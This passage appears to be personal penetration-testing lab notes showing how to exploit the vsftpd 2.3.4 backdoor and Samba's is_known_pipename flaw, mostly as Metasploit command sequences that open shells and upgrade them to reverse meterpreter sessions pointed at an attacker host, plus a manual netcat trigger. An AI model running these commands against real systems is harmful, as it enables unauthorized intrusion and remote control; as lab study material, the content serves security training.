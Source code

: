 ```bash
```

<a id=6.2></a>
## Linux Exploitation

<a id=6.2.1></a>
### Exploiting FTP

We know what FTP is.

Main attack vectors:

- Bruteforce attack
- Anonymous sessions
- Inherent vulnerabiliites :) *wink wink*

In the lab we exploit vsftpd 2.3.4, the happy version of vsftpd.

```bash
msf6 > workspace -a FTP
msf6 > setg RHOSTS [TARGET]
msf6 > setg RHOST [TARGET]
msf6 > db_nmap -sS -sV -O [TARGET]
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
# we get a session if the service is indeed backdoored. lets upgrade the shell. first run /bin/bash -i.
# i tried to run the post module for like half an hour like a dumbass, i had to run bash on the session first :<
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST [ATTACKER_IP]
msf6 post(multi/manage/shell_to_meterpreter) > set LPORT [ATTACKER_PORT]
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION [SESSION_ID]
msf6 post(multi/manage/shell_to_meterpreter) > run
# if everything goes well. then we're good to go.
```

We can also exploit this vulnerability manually due to its backdoor nature. The way we exploit this vulnerability is by
logging into the vsftpd with telnet and login in with \[user\]+:) and any password. The payload in this case is the smiley face.
Before doing that, we need to get a netcat instance ready to go and connect to the [TARGET_IP]:[PORT]

<a id=6.2.2></a>
### Exploiting Samba

Samba = SMB for teh FOSS enjoyers.

```bash
msf6 > workspace -a Samba
msf6 > setg RHOST [TARGET]
msf6 > setg RHOSTS [TARGET]
msf6 > search type:exploit name:samba
msf6 > use exploit/linux/samba/is_known_pipename
msf6 exploit(linux/samba/is_known_pipename) > check
# this will run an auxiliary module to check if the target is vulnerable or not. it lies sometimes. beware.
msf6 exploit(linux/samba/is_known_pipename) > run
# you get a shell session. fuck that. run /bin/bash -i and ctrl+z
msf6 exploit(linux/samba/is_known_pipename) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION [SESSION_ID]
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST [ATTACKER_IP]
msf6 post(multi/manage/shell_to_meterpreter) > set LPORT [ATTACKER_PORT]
msf6 post(multi/manage/shell_to_meterpreter) > set payload linux/x86/meterpreter/reverse_tcp
# not needed, but it makes me feel safe.
```